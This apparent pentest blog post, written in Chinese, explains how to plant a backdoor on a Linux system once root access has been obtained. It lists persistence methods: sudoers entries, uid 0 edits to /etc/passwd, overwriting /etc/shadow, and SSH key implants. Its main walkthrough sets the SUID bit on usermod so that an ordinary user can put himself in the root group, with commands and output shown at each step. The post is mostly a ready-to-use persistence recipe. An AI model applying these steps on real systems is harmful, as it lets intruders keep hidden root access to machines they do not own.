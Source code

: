 +++
date = "2016-04-18T20:03:07+08:00"
description = ""
draft = false
tags = ["后门"]
title = "Linux之SUID后门"
topics = ["Pentest"]

+++

SUID可以用来做后门，前提是你已经获取了root权限，且给予s权限的文件必须为二进制

### 0x00 为二进制文件添加s权限从而提升为root权限
* 写sudoers添加用户  `//最佳方案`  
* vim /etc/passwd    `//将uid和gid改为0`
* vim /etc/shadow    `//密文覆盖`  
* vim root .ssh/证书文件   `.ssh这个文件夹和证书的权限要正确，要和原来一致`

### 0x01 SUID主要作用可以是留后门
* 在root权限下给usermod一个s权限
```bash
# which usermod   #得到usermod的路径                             
/usr/sbin/usermod
# chmod u+s /usr/sbin/usermod
# ls -l /usr/sbin/usermod
-rwsr-x---. 1 root root 98680 Dec  7  2011 /usr/sbin/usermod
```

* usermod给其他人一个x权限
```bash
[root@localhost ~]# chmod o+x /usr/sbin/usermod
[root@localhost ~]# ls -l /usr/sbin/usermod
-rwsr-x--x. 1 root root 98680 Dec  7  2011 /usr/sbin/usermod
```

* 切换到普通用户wyb
```bash
[wyb@localhost ~]$ id wyb
uid=500(wyb) gid=500(wyb) groups=500(wyb)
[wyb@localhost ~]$ usermod -g root wyb
[wyb@localhost ~]$ id wyb
uid=500(wyb) gid=0(root) groups=0(root)
[wyb@localhost ~]$ exit
```

* 验证
```bash
重新用wyb连接，此时即为root权限
[wyb@localhost ~]$ cd /root  #若能切换到此目录即证明确实获得了root权限
[wyb@localhost root]$ ls
anaconda-ks.cfg  install.log  install.log.syslog
```

### 0x02 查找拥有s权限的文件
* find / -perm -u=s -type f 2>/dev/null
